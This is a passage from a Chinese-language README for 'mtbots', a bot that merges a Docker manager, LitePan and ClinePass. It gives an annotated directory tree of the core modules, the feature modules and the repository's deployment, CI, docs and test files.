* LitePan 的「自动发现」与「回执」还没拆成两个开关（旧版就是耦合的，行为未退化）。

## 目录结构

```
mtbots/
├── app.py            # 组装：Core + 路由 + 三个模块 → 一个 Application
├── config.py         # 全局配置（兼容三家全部旧环境变量名）
├── acl.py            # 角色 + 模块权限（默认拒绝）
├── logging_setup.py  # 统一日志与全局脱敏（Token / API Key / 邮箱 / 密码）
├── text.py           # 转义 / HTML 安全分片 / 进度条 / 时间人性化 / 状态符号
├── store.py          # 原子写 + 0600 的统一 JSON 存储
├── panels.py         # 单会话单面板 + 面包屑 + 🏠 返回 + 两步确认 + 回调载荷表
├── jobs.py           # 🧰 任务中心
├── menu.py           # 合并命令菜单（模块只提交片段，禁止各自 setMyCommands）
├── core.py           # Core 容器 + ModuleSpec（模块唯一对接口）
├── router.py         # 首页 / 面包屑路由 / 冲突命令消歧 / 帮助 / 兜底救援
└── features/
    ├── docker/       # 🐳 原 LDMG：compose 扫描 / 升级 / 停止 / 清理 / 进度流
    ├── litepan/      # 🎬 原 LitePan：发现 / 规则 / 触发 / 回执轮询（同步 HTTP → to_thread）
    └── cline/        # 🤖 原 ClinePass：Key 存储 / 额度接口 / 面板渲染

仓库根：
├── Dockerfile / docker-compose.yml / .dockerignore   # 镜像与部署（非 root、只读根、自带 docker CLI）
├── .github/workflows/docker.yml                      # CI：跑测试 + 构建 amd64/arm64 镜像推 GHCR
├── Makefile                                          # check / health / test / run / list / add-host / remote-setup
├── scripts/                                          # setup-remote-host.sh：一键接入远端主机（交互向导）
├── docs/                                             # 设计稿、施工契约（porting-contract）、合并报告
│   ├── mtbots-modules.svg                            # 模块与命令一览图（README 顶部那张）
│   ├── multi-host-setup.md                           # 多主机手动步骤、SSH 原理、面板样例、提速数据
│   └── examples/                                     # 多主机：主机清单样例、远端守卫脚本、authorized_keys 样例
└── tests/                                            # 469 个 stdlib unittest 用例
```
